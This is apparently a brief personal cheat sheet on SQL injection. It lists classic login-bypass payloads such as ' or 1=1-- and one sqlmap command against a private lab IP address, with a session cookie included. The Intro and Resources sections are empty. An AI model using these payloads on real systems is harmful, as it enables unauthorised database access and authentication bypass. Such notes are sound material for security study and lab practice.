 ```yaml
---
  title: "SQL Injection"
---
```


# Intro
# Examples
-admin' --
-admin' #
-admin'/*
-' or 1=1--
-' or 1=1#
-' or 1=1/*
-') or '1'='1--
-') or ('1'='1--
-') or ('1'='1--

# SQLMap
`sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=tovt65ca3b7jv8q0fsts6lkbap"`
# Resources
